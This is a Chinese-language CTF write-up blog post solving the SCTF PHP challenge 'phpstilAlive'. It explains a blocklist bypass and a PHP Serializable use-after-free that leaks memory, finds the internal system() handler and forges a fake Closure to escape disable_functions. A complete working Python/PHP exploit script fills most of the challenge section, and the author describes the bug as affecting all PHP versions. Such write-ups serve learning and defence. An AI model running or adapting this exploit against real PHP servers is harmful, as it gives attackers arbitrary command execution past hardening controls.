

## TL;DR

之前一直觉得 SCTF 的 web 质量不错，现在看来也还可以，这次想发博客就是因为一道 php 的题目，在前两周我在成都的时候，我闲着没事，但是我买了一个 pro5x，正好看到 UAF 可攻击 php 全版本，当时就估摸着 XCTF Final 的时候烧麦就是这样打的那道 php 的题，于是我就用 AI 写了一个 antsword 的插件，但是各版本偏移实在是太繁琐了，所以就想着开源，而且我自己试了试，其实并不是特别好用，没想到今天打 CTF 用上了


## phpstilAlive

### 题目信息

`disable_functions` 禁用了所有命令执行函数（system, exec, shell_exec, proc_open 等）及大量文件操作函数（fopen, file_get_contents, scandir 等），`open_basedir` 限制为 `/var/www/html:/tmp`，同时在 `eval()` 前对代码进行 token 分析，拦截特定类名和函数调用。`/tmp` 目录权限为 `0555`（不可写），Flag 文件 `/lfag-9f1d7c2e-6a2c-4e54-9d7e-6cb10c4b8f9a` 属主 `root:root`，权限 `0400`。

通过 `php://filter/convert.base64-encode` 读取 `index.php` 源码，发现 `snippet_is_blocked()` 函数实现了以下检查：

**blocked_names**

```
ArrayIterator, ArrayObject, DateInterval, DateTime, DateTimeImmutable,
DatePeriod, HashContext, MultipleIterator, RecursiveArrayIterator,
SplDoublyLinkedList, SplHeap, SplMaxHeap, SplMinHeap, SplObjectStorage,
WeakMap, WeakReference
```

**blocked_calls**

```
prev, session_start, session_unset, settype, spl_autoload_register,
spl_autoload_unregister, call_user_func, call_user_func_array,
date_create, date_create_immutable, date_diff,
date_interval_create_from_date_string
```

此外 `T_CLONE` 关键字被禁，`new $variable` 和 `new (expr)` 被禁（但 `new ClassName` 允许），字符串字面量中包含 blocked_names/blocked_calls 的内容也会被拦截。

绕过思路是用 `chr()` 拼接构造类名字符串，再用 `class_alias()` 创建别名来绕过 blocked_names；将函数名通过 `chr()` 逐字符拼接赋值给变量，再用变量函数调用来绕过 blocked_calls：

```php
// 绕过 blocked_names
$dll_name = chr(83).chr(112).chr(108)...;  // "SplDoublyLinkedList"
class_alias($dll_name, "DLL");

// 绕过 blocked_calls
$fn = chr(112).chr(114).chr(101).chr(118);  // "prev"
$fn($arg);
```

### 利用链

**核心漏洞: PHP Serializable var_hash UAF**

`zend_user_unserialize()` 在调用 `Serializable` 类的 `unserialize()` 方法前未递增 `BG(serialize_lock)`。递归的 `unserialize()` 继承了外层的 `var_hash`；当内部对象触发属性哈希表 resize（从 nTableSize=8 扩容到 16）时，原始的 288 字节 arData 缓冲区被 `efree`，但外层 `var_hash` 中的 `R:N` 引用仍然指向已释放的内存。

```php
class ASUAFCD implements Serializable {
    public function serialize() { return ''; }
    public function unserialize($data) {
        unserialize($data)->x = 0;  // 第 9 个属性插入触发 resize
    }
}
```

**堆地址泄漏 → 对象指针扫描**

构造序列化 payload，spray 32 个 280 字节的字符串填充堆。通过 `R:N` 引用指向 UAF 的 freed 内存，freed 内存被 spray 字符串复用后，比较 spray 内容与原始值的差异来泄漏堆上 `zend_reference` 地址。

拿到堆地址后，利用 UAF 读原语，将堆 chunk 的起始地址（2MB 对齐）作为 fake `zend_string` 读取整个 chunk 内容，在其中扫描 Closure 对象的特征模式（refcount、type_info=8、handle、ce、handlers），找到 Closure 类的 `ce` 和 `handlers` 指针。

**定位 executor_globals → 绕过 disable_functions**

从 `closure_handlers`（位于 PHP 二进制的 `.data`/`.bss` 段）向高地址以 8 字节步进搜索，验证候选地址是否指向一个有效的 `HashTable`（function_table 通常有 100-10000 个条目），找到后通过偏移反推 `executor_globals` 基地址，再从 `EG + 0x130` 定位 `symbol_table`。

在 function_table 中查找 `var_dump` 等已知函数，从其 `zend_internal_function` 结构读取 `module` 指针，找到 `standard` 模块。然后遍历模块的 `zend_function_entry[]` 数组（C 层静态结构，不受 `disable_functions` 影响），直接获取 `zif_system` 的内存地址。

**构造 Fake Closure → 类型混淆**

在 PHP 变量中构造一个 512 字节的字符串，其内容模拟 `zend_closure` 结构体：

```
offset 0x00: refcount = 0x7FFFFFFF (防止被 GC)
offset 0x04: type_info = 0x18 (IS_OBJECT)
offset 0x10: ce = <Closure class entry>
offset 0x18: handlers = <closure_handlers>
offset 0x38: type = 1 (ZEND_INTERNAL_FUNCTION)
offset 0x90: handler = <zif_system address>
```

通过 `EG.symbol_table` 线性搜索找到存储 fake closure 字符串的全局变量 `_xfc`，读取其 `zend_string` 地址，加上 header 偏移（24 字节）得到 fake closure 对象在堆上的精确地址。

最后一次 UAF：spray 中将 freed slot 的类型标记为 `IS_OBJECT`（0x08），值设为 fake closure 地址。反序列化后 `$result[33]` 被 PHP 引擎视为一个 Closure 对象，调用 `$result[33]("/readflag")` 实际执行了 `zif_system("/readflag")`。

```php
(new X)->run("/readflag");
```

exp 如下
```python
#!/usr/bin/env python3
import requests
import re
import html as h
import sys

URL = sys.argv[1] if len(sys.argv) > 1 else "http://web-633eacb1ff.adworld.xctf.org.cn:80/"
CMD = sys.argv[2] if len(sys.argv) > 2 else "/readflag"

PAYLOAD = r"""<?php
error_reporting(0);
set_time_limit(25);
class ASUAFCD implements Serializable {
    public function serialize(){return '';}
    public function unserialize($data){unserialize($data)->x=0;}
}
$GLOBALS['_cl']=function(){};
class X{
    private $AM=0x7FFFFFFFFFFF;
    private function uso(){return 40;}
    private function bi(){$p='';for($k=0;$k<8;$k++){$n="p$k";$p.='s:'.strlen($n).':"'.$n.'";i:'.(0xAAAA0000+$k).';';}return'O:8:"stdClass":8:{'.$p.'}';}
    private function bsl($m=0xBBBB0000){$s=str_repeat("\x00",280);for($k=0;$k<8;$k++){$vo=8+$k*32;$to=$vo+8;if($to+4>280)break;$v=$m+$k;$s[$vo]=chr($v&0xFF);$s[$vo+1]=chr(($v>>8)&0xFF);$s[$vo+2]=chr(($v>>16)&0xFF);$s[$vo+3]=chr(($v>>24)&0xFF);$s[$vo+4]=$s[$vo+5]=$s[$vo+6]=$s[$vo+7]="\x00";$s[$to]="\x04";$s[$to+1]=$s[$to+2]=$s[$to+3]="\x00";}return$s;}
    private function bss($ta){$s=str_repeat("\x00",280);$vo=40;$ab=pack('P',$ta);for($i=0;$i<8;$i++)$s[$vo+$i]=$ab[$i];$to=$vo+8;$s[$to]="\x06";$s[$to+1]=$s[$to+2]=$s[$to+3]="\x00";for($k=0;$k<8;$k++){if($k==1)continue;$vo2=8+$k*32;$to2=$vo2+8;if($to2+4>280)break;$s[$to2]="\x04";$s[$to2+1]=$s[$to2+2]=$s[$to2+3]="\x00";}return$s;}
    private function bso($oa){$s=str_repeat("\x00",280);$vo=40;$ab=pack('P',$oa);for($i=0;$i<8;$i++)$s[$vo+$i]=$ab[$i];$to=$vo+8;$s[$to]="\x08";$s[$to+1]="\x03";$s[$to+2]=$s[$to+3]="\x00";for($k=0;$k<8;$k++){if($k==1)continue;$vo2=8+$k*32;$to2=$vo2+8;if($to2+4>280)break;$s[$to2]="\x04";$s[$to2+1]=$s[$to2+2]=$s[$to2+3]="\x00";}return$s;}
    private function bp($spray,$nr=1){$inner=$this->bi();$cp='C:7:"ASUAFCD":'.strlen($inner).':{'.$inner.'}';$t=1+32+$nr;$parts=['i:0;'.$cp];for($i=0;$i<32;$i++)$parts[]='i:'.($i+1).';s:280:"'.$spray.'";';for($k=0;$k<$nr;$k++)$parts[]='i:'.(33+$k).';R:'.(4+$k).';';return'a:'.$t.':{'.implode('',$parts).'}';}
    private function ur($addr,$n=8){foreach([0,8,0x10,0x20,0x40,0x80,0x100,0x200] as $bias){$ta=$addr-0x18-$bias;if($ta<0x1000)continue;$r=@unserialize($this->bp($this->bss($ta),1));if($r===false)continue;$str=$r[33];if(!is_string($str)||strlen($str)<=$bias+$n-1)continue;$out=substr($str,$bias,$n);if(strlen($out)>=$n)return$out;}return false;}
    private function r8($a){$d=$this->ur($a,8);if($d===false||strlen($d)<8)return false;return unpack('P',$d)[1];}
    private function r8r($a,$t=3){for($i=0;$i<$t;$i++){$v=$this->r8($a);if($v!==false)return$v;}return false;}
    private function hl(){$spray=$this->bsl();$orig=$spray;$r=@unserialize($this->bp($spray,8));if($r===false)return false;for($i=1;$i<=32;$i++){$s=$r[$i];for($k=0;$k<8;$k++){$vo=8+($k+1)*32;if(substr($s,$vo,8)!==substr($orig,$vo,8))return unpack('P',substr($s,$vo,8))[1];}}return false;}
    private function fop($ha){$chunk=$ha&0xFFFFFFFFFFE00000;for($i=0;$i<256;$i++)$GLOBALS["_s$i"]=function(){};for($att=0;$att<3;$att++){$r=@unserialize($this->bp($this->bss($chunk-0x10),1));if($r===false)continue;$str=$r[33];if(!is_string($str))continue;$sl=strlen($str);if($sl<0x10000)continue;$mx=min($sl,0x200000-8);$pairs=[];for($off=8;$off+32<=$mx;$off+=16){$rc=unpack('V',substr($str,$off,4))[1];if($rc<1||$rc>50)continue;$ti=ord($str[$off+4])&0x0F;if($ti!=8)continue;$handle=unpack('V',substr($str,$off+8,4))[1];if($handle==0||$handle>100000)continue;$pad=unpack('V',substr($str,$off+12,4))[1];if($pad!=0)continue;$ce=unpack('P',substr($str,$off+16,8))[1];$hdl=unpack('P',substr($str,$off+24,8))[1];if($ce==0||$hdl==0)continue;if(($hdl&(~0x1FFFFF))==$chunk)continue;if($hdl<0x10000||$hdl>$this->AM)continue;$key=sprintf("%x",$hdl);if(!isset($pairs[$key]))$pairs[$key]=['ce'=>$ce,'h'=>$hdl,'c'=>0];$pairs[$key]['c']++;}if(empty($pairs))continue;usort($pairs,function($a,$b){return$b['c']-$a['c'];});return[$pairs[0]['ce'],$pairs[0]['h']];}return false;}
    private function fft($hdl){for($d=0x20;$d<0x300;$d+=8){foreach([0x1b0,0x1c8] as $fto){$pa=$hdl+$d+$fto;$dd=$this->ur($pa,24);if($dd===false)continue;$fp=unpack('P',substr($dd,0,8))[1];$cp=unpack('P',substr($dd,8,8))[1];if($fp<0x10000||$fp>$this->AM||$cp<0x10000||$cp>$this->AM)continue;if(abs($fp-$cp)>0x1000000)continue;$htd=$this->ur($fp+0x0C,16);if($htd===false)continue;$ntm=unpack('V',substr($htd,0,4))[1];$ad=unpack('P',substr($htd,4,8))[1];$nnu=unpack('V',substr($htd,12,4))[1];$pos=(~$ntm+1)&0xFFFFFFFF;if($pos<64||($pos&($pos-1))!=0)continue;if($ad<0x10000||$ad>$this->AM||$nnu<100||$nnu>10000)continue;return['ad'=>$ad,'ntm'=>$ntm,'d'=>$d,'fto'=>$fto];}}return false;}
    private function zhf($key){$h=5381;for($i=0;$i<strlen($key);$i++)$h=(($h<<5)+$h)+ord($key[$i]);return$h|(1<<63);}
    private function htf($ad,$ntm,$key){$h=$this->zhf($key);$ni=(($h&0xFFFFFFFF)|$ntm)&0xFFFFFFFF;if($ni>=0x80000000)$ni-=0x100000000;$d=$this->ur($ad+$ni*4,4);if($d===false)return false;$idx=unpack('V',$d)[1];if($idx===0xFFFFFFFF)return false;$kl=strlen($key);for($c=0;$c<16;$c++){$ba=$ad+$idx*32;$b=$this->ur($ba,32);if($b===false)return false;$kp=unpack('P',substr($b,24,8))[1];if($kp!=0){$kd=$this->ur($kp+16,8+$kl);if($kd!==false){$slen=unpack('P',substr($kd,0,8))[1];if($slen==$kl&&substr($kd,8,$kl)===$key)return$b;}}$next=unpack('V',substr($b,12,4))[1];if($next===0xFFFFFFFF)return false;$idx=$next;}return false;}
    private function rs($a,$ml=16){$d=$this->ur($a,$ml);if($d===false)return false;$s='';for($i=0;$i<strlen($d);$i++){$c=ord($d[$i]);if($c==0)break;if($c>=0x20&&$c<=0x7e)$s.=chr($c);else return false;}return$s;}
    private function fsm($ad,$ntm){$probes=['var_dump','array_push','phpversion','strtolower'];foreach($probes as $fn){$b=$this->htf($ad,$ntm,$fn);if($b===false)continue;$fp=unpack('P',substr($b,0,8))[1];$cand=$this->r8r($fp+0x60);if($cand===false||$cand<0x10000||$cand>$this->AM)continue;$np=$this->r8r($cand+0x20);if($np===false)continue;$name=$this->rs($np);if($name==='standard'){$funcs=$this->r8r($cand+0x28);if($funcs===false)continue;for($j=0;$j<600;$j++){$entry=$funcs+$j*0x30;$fnp=$this->r8r($entry);if($fnp===false||$fnp==0)continue;$fname=$this->rs($fnp);if($fname==='system')return$this->r8r($entry+0x08);}}}return false;}
    private function fst($hdl,$combined){foreach([0x1b0,0x1c8] as $fto){$delta=$combined-$fto;if($delta<0)continue;$st=$hdl+$delta+0x130;$d=$this->ur($st+0x0C,16);if($d===false)continue;$m=unpack('V',substr($d,0,4))[1];$ad=unpack('P',substr($d,4,8))[1];$nu=unpack('V',substr($d,12,4))[1];$m32=$m&0xFFFFFFFF;if($m32<0xFFFF0000)continue;$pos=(~$m32+1)&0xFFFFFFFF;if(($pos&($pos-1))!==0||$pos<4)continue;if($ad<0x10000)continue;if($nu>500)continue;return$st;}return false;}
    private function htfl($st,$name){$d=$this->ur($st+0x0C,20);if($d===false||strlen($d)<20)return false;$ad=unpack('P',substr($d,4,8))[1];$nnu=unpack('V',substr($d,12,4))[1];if($ad<0x10000||$ad>$this->AM||$nnu<=0||$nnu>1024)return false;$kl=strlen($name);for($idx=0;$idx<$nnu;$idx++){$ba=$ad+$idx*32;$b=$this->ur($ba,32);if($b===false||strlen($b)<32)continue;$kp=unpack('P',substr($b,24,8))[1];if($kp==0)continue;$kd=$this->ur($kp+16,8+$kl);if($kd===false||strlen($kd)<8+$kl)continue;$slen=unpack('P',substr($kd,0,8))[1];if($slen==$kl&&substr($kd,8,$kl)===$name)return$b;}return false;}
    private function fvsa($st,$name){$b=$this->htfl($st,$name);if($b===false)return false;$type=ord($b[8]);$val=unpack('P',substr($b,0,8))[1];if($type==6)return$val;if($type==10){$inner=$this->ur($val+8,16);if($inner!==false&&ord($inner[8])==6)return unpack('P',substr($inner,0,8))[1];}if($type==15){$inner=$this->ur($val,16);if($inner!==false&&ord($inner[8])==6)return unpack('P',substr($inner,0,8))[1];}return false;}
    public function run($cmd){
        $ha=$this->hl();if(!$ha)return;
        $ptrs=$this->fop($ha);if(!$ptrs)return;list($ce,$hdl)=$ptrs;
        $ft=$this->fft($hdl);if(!$ft)return;
        $sys=$this->fsm($ft['ad'],$ft['ntm']);if(!$sys)return;
        $combined=$ft['d']+$ft['fto'];
        $st=$this->fst($hdl,$combined);if(!$st)return;
        $fc=str_repeat("\x00",512);
        $fc[0]="\xff";$fc[1]="\xff";$fc[2]="\xff";$fc[3]="\x7f";
        $fc[4]="\x18";$fc[5]=$fc[6]=$fc[7]="\x00";
        $p=pack('P',$ce);for($i=0;$i<8;$i++)$fc[0x10+$i]=$p[$i];
        $p=pack('P',$hdl);for($i=0;$i<8;$i++)$fc[0x18+$i]=$p[$i];
        $fc[0x38]="\x01";
        $p=pack('V',1);for($i=0;$i<4;$i++)$fc[0x58+$i]=$p[$i];
        for($i=0;$i<4;$i++)$fc[0x5C+$i]=$p[$i];
        $p=pack('P',$sys);for($i=0;$i<8;$i++)$fc[0x90+$i]=$p[$i];
        $GLOBALS["_xfc"]=$fc;
        $sp=$this->fvsa($st,"_xfc");if(!$sp)return;
        $oa=$sp+24;
        $r=@unserialize($this->bp($this->bso($oa),1));
        if($r===false)return;
        if(!is_object($r[33]))return;
        $r[33]($cmd);
    }
}
(new X)->run("__CMD__");
?>"""

def exploit(url, cmd):
    code = PAYLOAD.replace("__CMD__", cmd)
    r = requests.post(url, data={"code": code}, verify=False, timeout=30)
    m = re.search(r'class="out">(.*?)</pre>', r.text, re.DOTALL)
    if m:
        return h.unescape(m.group(1))
    return None

if __name__ == "__main__":
    requests.packages.urllib3.disable_warnings()
    result = exploit(URL, CMD)
    if result:
        print(result)
    else:
        print("exploit failed", file=sys.stderr)
        sys.exit(1)

```

## great_sql


> https://github.com/AntSwordProject/ant_php_extension
> https://github.com/php/php-src/issues/11878
> PHP 8.4 zend_closure 内部结构 (handler offset = 0x90 for PHP 8.4)